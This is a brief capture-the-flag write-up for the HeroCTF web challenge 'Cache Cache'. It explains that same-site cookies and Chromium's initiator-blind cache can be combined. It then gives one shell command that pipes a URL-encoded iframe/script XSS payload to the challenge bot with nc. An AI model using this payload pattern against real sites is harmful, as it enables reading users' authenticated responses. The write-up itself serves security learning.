 # Cache Cache

This challenge aims to force the user to exploit two things:

- Cookies are always sent with same-site requests.
- Chromium’s cache does not take the initiator into account.

```sh
echo "http://web.heroctf.fr:5300/download/%3Ciframe%20srcdoc=%22%3Cimg%20src='http:&sol;&sol;cache-cache.heroctf.fr:5100&sol;'%3E%3Cscript%3EsetTimeout(()%20=%3E%7Bfetch('http:&sol;&sol;cache-cache.heroctf.fr:5100&sol;',%7Bmethod:%20'GET',cache:%20'force-cache'%20%7D).then(d=%3Ed.text()).then(console.log);%7D,500);%3C&sol;script%3E%22%3E" | nc cache-cache.heroctf.fr 5101
```